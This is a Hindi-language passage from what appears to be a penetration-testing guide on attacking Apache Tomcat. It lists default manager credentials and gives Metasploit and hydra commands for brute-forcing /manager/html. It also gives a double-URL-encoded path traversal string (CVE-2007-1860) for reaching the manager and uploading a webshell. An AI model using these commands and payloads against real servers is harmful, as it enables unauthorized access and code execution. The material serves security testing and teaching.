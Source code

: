 Tomcat6 से पहले कुछ संस्करणों में आप उपयोगकर्ताओं की सूचीकरण कर सकते थे:
```bash
msf> use auxiliary/scanner/http/tomcat_enum
```
### डिफ़ॉल्ट क्रेडेंशियल्स

Tomcat का सबसे रोचक पथ _**/manager/html**_ है, इस पथ में **आप वार फ़ाइल अपलोड और डिप्लॉय कर सकते हैं** (कोड चला सकते हैं)। लेकिन यह पथ बेसिक HTTP ऑथ से सुरक्षित है, सबसे सामान्य क्रेडेंशियल्स हैं:

* admin:admin
* tomcat:tomcat
* admin:\<कुछ नहीं>
* admin:s3cr3t
* tomcat:s3cr3t
* admin:tomcat

आप इनमें से और भी टेस्ट कर सकते हैं:
```bash
msf> use auxiliary/scanner/http/tomcat_mgr_login
```
एक और **रोचक Tomcat** पथ है _**/manager/status**_, जहां आप ओएस और Tomcat के संस्करण को देख सकते हैं। यह उपयोगी होता है जब आप _**/manager/html**_ तक पहुंच नहीं पा रहे हों और Tomcat के संस्करण को प्रभावित करने वाली vulns को खोजने में सहायता मिलती है।

### ब्रूटफोर्स
```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html

msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST tomacat-site.internal
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts <IP>
```
## खोज

### पासवर्ड बैकट्रेस खुलासा

`/auth.jsp` तक पहुंचने का प्रयास करें और यदि आप बहुत भाग्यशाली हैं तो यह **बैकट्रेस में पासवर्ड खुलासा कर सकता है**।

### डबल URL कोड

एक अच्छी तरह से जानी जाने वाली कमजोरी _को_ पहुंचने के लिए एप्लिकेशन प्रबंधक \_\_ में mod\_jk है CVE-2007-1860, जो **डबल URL कोड पथ ट्रावर्सल** की अनुमति देता है।

Tomcat के प्रबंधन वेब तक पहुंचने के लिए जाएँ: _pathTomcat/%252E%252E/manager/html_

ध्यान दें कि वेबशेल अपलोड करने के लिए आपको डबल URL कोड ट्रिक का उपयोग करने की आवश्यकता हो सकती है और साथ ही कुकी और/या एक SSRF टोकन भी भेजने की आवश्यकता हो सकती है।\
बैकडोर तक पहुंचने के लिए आपको डबल URL कोड ट्रिक का उपयोग करने की आवश्यकता भी हो सकती है।

### /उदाहरण
